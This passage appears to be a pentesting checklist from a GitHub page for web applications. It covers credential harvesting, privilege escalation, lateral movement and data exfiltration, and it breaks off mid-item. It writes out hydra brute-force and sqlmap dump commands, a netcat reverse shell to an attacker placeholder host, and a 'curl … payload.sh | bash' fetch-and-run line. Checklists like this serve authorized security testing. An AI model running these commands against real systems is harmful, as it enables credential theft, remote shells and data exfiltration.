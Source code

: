 # Credential Harvesting
- [ ] **Exposed Credentials:** Search for exposed credentials in application source code, comments, or configuration files.
    - `grep -r "password" /var/www/html`
    - `dirb http://<target_url> /path/to/wordlist`
- [ ] **Brute Force Login:** Perform brute-force attacks against login forms or authentication systems.
    - `hydra -l <username> -P <password_list> <target_url> http-post-form "/login:username=^USER^&password=^PASS^"`
- [ ] **Database Dumping (SQLi):** Use SQL injection vulnerabilities to dump database contents, including credentials.
    - `sqlmap -u "http://<target_domain>/index.php?id=1" --dump`
- [ ] **Session Hijacking:** Steal session cookies through XSS or session fixation attacks to impersonate users.
    - Use `Burp Suite` to intercept and manipulate session cookies.
- [ ] **Token Reuse:** Reuse JWT or session tokens to impersonate users or escalate privileges.

# Privilege Escalation
- [ ] **Horizontal Privilege Escalation:** Exploit vulnerabilities to gain access to other users' accounts.
    - Abuse session management issues or insecure direct object references (IDOR).
- [ ] **Vertical Privilege Escalation:** Gain elevated privileges by exploiting misconfigured access controls.
    - Check for user roles that allow privilege escalation (e.g., admin functionality exposed).
- [ ] **File Upload Vulnerabilities:** Exploit file upload functionality to upload malicious files and execute code.
    - Bypass file extension filters to upload `.php`, `.jsp`, or other executable file types.
- [ ] **Broken Access Control:** Exploit broken access control mechanisms (e.g., URL tampering, IDOR).
    - `http://<target_url>/admin/edit_user.php?id=1`
- [ ] **API Vulnerabilities:** Exploit misconfigured API endpoints for privilege escalation.
    - Test endpoints for improper authorization checks using tools like `Postman` or `Burp Suite`.

# Lateral Movement/Pivoting/Tunneling
- [ ] **Exploiting Admin Interfaces:** Use admin-level access to move laterally within the application or server.
    - Access restricted areas by exploiting admin interfaces.
- [ ] **Database Access:** Use compromised database credentials to pivot and escalate privileges within the database or server.
    - `mysql -h <target_ip> -u <username> -p`
- [ ] **Web Shell Pivoting:** Use installed web shells to execute commands on other internal services or move laterally.
    - `nc <attack_ip> <attack_port> -e /bin/bash`
- [ ] **Command Execution:** Exploit command execution vulnerabilities to gain a foothold on the underlying server.
    - Example: `curl http://<attack_ip>:<port>/payload.sh | bash`

# Data Exfiltration
- [ ] **Database Dumping:** Dump sensitive data from the database through SQL injection or compromised admin credentials.
    - `sqlmap --dump-all`
- [ ] **Sensitive
